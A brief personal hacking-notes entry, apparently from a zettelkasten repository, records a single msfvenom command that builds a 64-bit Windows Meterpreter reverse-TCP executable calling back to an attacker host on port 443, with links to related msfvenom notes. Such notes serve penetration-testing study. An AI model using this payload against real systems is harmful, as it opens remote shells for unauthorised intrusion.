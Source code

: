 # MSFVENOM Windows Binary (.exe) executable 64 Bit (x64) Meterpreter
```bash
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=$LHOST LPORT=443 -f exe -o shell.exe
```

` zet/20221003150767/README.md `

# Related

- [20221014185901](/zet/20221014185901/README.md) kb file named kb/hacking/commands/msfvenom-commands.md
- [20221003150771](/zet/20221003150771/README.md) MSFVENOM Windows Binary (.exe) executable 64 Bit (x64)
- ~/kb/hacking/commands/msfvenom-commands.md

Tags:

    #command #hacking #msfvenom 
